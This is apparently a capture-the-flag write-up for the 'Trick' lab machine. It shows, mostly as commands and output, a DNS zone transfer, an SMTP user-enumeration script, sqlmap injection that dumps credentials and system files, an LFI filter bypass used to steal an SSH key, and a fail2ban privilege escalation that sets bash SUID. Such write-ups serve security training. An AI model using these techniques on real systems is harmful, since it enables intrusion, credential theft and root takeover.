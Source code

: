 ## Enumeration
```bash
22 - OpenSSH 7.9p1 Debian 10+deb10u2
25 - Postfix
53 - BIND "9.11.5-P4-5.1+deb10u7-Debian"
80 - nginx 1.14.2 - unconfigured boostrap
```
```bash
nslookup
> SERVER 10.10.11.166
Default server: 10.10.11.166
Address: 10.10.11.166#53
> 10.10.11.166
166.11.10.10.in-addr.arpa       name = trick.htb.
>
```
```bash
dig axfr @10.10.11.166 trick.htb

; <<>> DiG 9.18.1-1-Debian <<>> axfr @10.10.11.166 trick.htb
; (1 server found)
;; global options: +cmd
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 32 msec
;; SERVER: 10.10.11.166#53(10.10.11.166) (TCP)
 WHEN: Mon Jul 04 23:11:04 IST 2022
;; XFR size: 6 records (messages 1, bytes 231)
```

## SMTP
I went on a little bit of a rabbit hole with the SMTP server, but it wasn't completely useless  
I wrote this little python script, who attempts to find valid mail users, by bruteforcing VRFY  
```python
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
import smtplib
import sys

rhost = "10.10.11.166"
rport = 25
path = "/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt"

server = smtplib.SMTP(host=rhost,port=rport)
if server.noop()[0] != 250:
    print("[-]Connection Error")
    sys.exit()

with open(path, "r") as f:
    users = f.read().rstrip().split("\n")

for i in users:
    vrfy = server.verify(i)
    if vrfy[0] != 550:
        print(vrfy)
```
So I could find michael ahead of time  
```
python3 smtp_brute.py
(252, b'2.0.0 michael')
```

## SQLi
[http://preprod-payroll.trick.htb](http://preprod-payroll.trick.htb)  
  
the payroll portal can be found using gobuster vhost
it has a login page, which is vulnerable to SQli  
  
![sqli](./sqli.png)

We now have access to the payroll portal, it might be worth testing the site for more SQLi vulns  
After trying sqlmap on various forms, the 'save deduction' form seems to be vulnerable  
  
![deductions](./deductions.png)

```bash
sqlmap -r save_deductions.req --batch --threads 10 -D payroll_db -T users --dump
```
```bash
Database: payroll_db
Table: users
[1 entry]
+----+-----------+----------------+------+---------+---------+-----------------------+------------+
| id | doctor_id | name           | type | address | contact | password              | username   |
---+-----------+----------------+------+---------+---------+-----------------------+------------+
| 1  | 0         | Administrateur | 1    | <blank> | <blank> | SuperGucciRainbowCake | Enemigosss |
+----+-----------+----------------+------+---------+---------+-----------------------+------------+
```

The SQli can also be leveraged to dump files that www-data has access to:  
```bash
sqlmap -r save_deductions.req --batch --threads 10 --file-read /etc/passwd
```
```bash
grep sh$ /home/blnkn/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd
root:x:0:0:root:/root:/bin/bash
michael:x:1001:1001::/home/michael:/bin/bash
```

looking at the nginx virtual host config to know what the web folder names are  
```bash
sqlmap -r save_deductions.req --batch --threads 10 --file-read /etc/nginx/sites-available/default  
```
```bash
grep 'server_name\|root' /home/blnkn/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_nginx_sites-available_default                       
        server_name trick.htb;
        root /var/www/html;
        server_name _;
        server_name preprod-marketing.trick.htb;
        root /var/www/market;
        server_name preprod-payroll.trick.htb;
        root /var/www/payroll;
```
this uncovers a new vhost - preprod-marketing  
[http://preprod-marketing.trick.htb/index.php](http://preprod-marketing.trick.htb/index.php)  
because we now have the web folder paths we can now dump the source code  
```bash
sqlmap -r save_deductions.req --batch --threads 10 --file-read /var/www/market/index.php  
```
```php
<?php
$file = $_GET['page'];

if(!isset($file) || ($file=="index.php")) {
   include("/var/www/market/home.html");
}
else{
        include("/var/www/market/".str_replace("../","",$file));
}
?>
```
This points us to an LFI as the above can be evaded like this ..././..././..././  

## LFI
So we can now just dump michael's key, and get user access  
```bash
curl 'http://preprod-marketing.trick.htb/index.php?page=..././..././..././..././..././home/michael/.ssh/id_rsa' -o michael.pem
```

## Fail2Ban privesc
It is imediately apparent that the privesc will be something with fail2ban  
the makers of the box are hinting us to it in a few different ways  
there is a fail2ban config file in michael's home folder 
```bash
-bash-5.0$ ls -la
total 100
drwxr-xr-x 15 michael michael  4096 Sep 17 16:33 .
drwxr-xr-x  3 root    root     4096 May 25 13:28 ..
lrwxrwxrwx  1 root    root        9 Apr 22 09:47 .bash_history -> /dev/null
-rw-r--r--  1 michael michael   220 Apr 18  2019 .bash_logout
-rw-r--r--  1 michael michael  3526 Apr 18  2019 .bashrc
drwx------  9 michael michael  4096 May 11 21:09 .cache
drwx------ 10 michael michael  4096 May 11 21:08 .config
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Desktop
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Documents
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Downloads
drwx------  3 michael michael  4096 May 11 21:08 .gnupg
-rw-------  1 michael michael  1256 May 25 13:09 .ICEauthority
-rw-r--r--  1 michael michael  1536 Sep 17 14:22 iptables-multiport.conf
drwx------  3 michael michael  4096 May 11 21:07 .local
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Music
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Pictures
-rw-r--r--  1 michael michael   807 Apr 18  2019 .profile
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Public
drwx------  2 michael michael  4096 May 24 17:25 .ssh
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Templates
-rw-r-----  1 root    michael    33 Sep 17 01:51 user.txt
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Videos
-rw-------  1 michael michael 12716 Sep 17 16:33 .viminfo
```
he has access to restart fail2ban  
```bash
-bash-5.0$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```
and also has write access in /etc/fail2ban/actions.d
```bash
-bash-5.0$ cd /etc/fail2ban/
-bash-5.0$ ls -la
total 76
drwxr-xr-x   6 root root      4096 Sep 17 16:36 .
drwxr-xr-x 126 root root     12288 Sep 17 01:51 ..
drwxrwx---   2 root security  4096 Sep 17 16:36 action.d
-rw-r--r--   1 root root      2334 Sep 17 16:36 fail2ban.conf
drwxr-xr-x   2 root root      4096 Sep 17 16:36 fail2ban.d
drwxr-xr-x   3 root root      4096 Sep 17 16:36 filter.d
-rw-r--r--   1 root root     22908 Sep 17 16:36 jail.conf
drwxr-xr-x   2 root root      4096 Sep 17 16:36 jail.d
-rw-r--r--   1 root root       645 Sep 17 16:36 paths-arch.conf
-rw-r--r--   1 root root      2827 Sep 17 16:36 paths-common.conf
-rw-r--r--   1 root root       573 Sep 17 16:36 paths-debian.conf
-rw-r--r--   1 root root       738 Sep 17 16:36 paths-opensuse.conf
```
a quick google search for "fail2ban privesc" an we know we can execute arbitrary command with this  
let's try to make a bash suid  
```bash
cp /etc/fail2ban/action.d/iptables-multiport.conf iptables-multiport.conf
```
adding the chmod suid into the actionban command  
```bash
actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
            chmod +s /usr/bin/bash
```
and placing the file back in action.d  
```bash
rm -rf /etc/fail2ban/action.d/iptables-multiport.conf
cp iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf
```
then restarting the daemon  
```bash
sudo /etc/init.d/fail2ban restart
[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.
```
Now of course we need to trigger the ban, lets do a bruteforce attach with hydra  
```bash
hydra ssh://trick.htb -l root -P /usr/share/wordlists/rockyou.txt
```
and we're in  
```bash
ls -la /usr/bin/bash
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /usr/bin/bash
bash -p
bash-5.0# wc -c /root/root.txt
33 /root/root.txt
```

